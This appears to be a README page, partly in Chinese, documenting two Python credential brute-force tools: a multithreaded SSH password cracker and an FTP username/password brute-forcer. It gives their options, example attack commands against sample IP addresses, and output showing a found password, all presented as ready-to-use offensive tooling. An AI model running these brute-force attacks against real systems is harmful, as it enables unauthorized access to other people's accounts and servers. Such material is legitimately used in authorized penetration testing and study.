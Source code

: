 ### sshAttack.py 多线程ssh密码暴力破解
```
测试：
	➜  py python sshAttack.py -h                                                    
		Usage: -H <target host> -u <user> -f <password list>

		Options:
		  -h, --help     show this help message and exit
		  -H TGTHOST     specify target host
		  -f PASSWDFILE  specify password file
		  -u USER        specify the user
		  -c COUNT       specify the max ssh connect count , default 5
	
	py python sshAttack.py -H 192.168.2.201 -u test -f /Users/lock/1.txt -c 20
	-c 用户测试指定ssh链接数，具体根据ssh config 文件判断

例：
➜  py python sshAttack.py -H 192.168.1.100 -u root -f password.md -c 20
		[-] Testing: 1111
		[-] Testing: 2222
		[-] Testing: 3333
		[-] Testing: 111111
		[-] Testing: 123123
		[-] Testing: 123456
		[+] Good , Key Found: 123456
```

### ftpAttack.py 多线程ftp密码暴力破解
```
测试：
➜  py python ftpAttack.py -h
	Usage: -H <target host> -f <password list>

	Options:
	  -h, --help     show this help message and exit
	  -H TGTHOST     specify target host
	  -f PASSWDFILE  specify password file,like username:password format file
	  -d DELAY       attack time delay set default 1s

➜  py python ftpAttack.py -H 127.0.0.1 -f userpass.md -d 1

	[-] 127.0.0.1 FTP Anonymous Logon Failed.
	[+] Trying: root/aaa

	[-] Could not brute force FTP credentials.

	[+] Trying: lock/mmm

	[-] Could not brute force FTP credentials.
	[+] Trying: alice/123


	[-] Could not brute force FTP credentials.

	The default test delay time is 0s , test default account is anonymous , if success, will show user name and password.
	userpass.md is username and password file,the file format like below:
		root:123
		hello:456
		alice:789
		test:12345
```
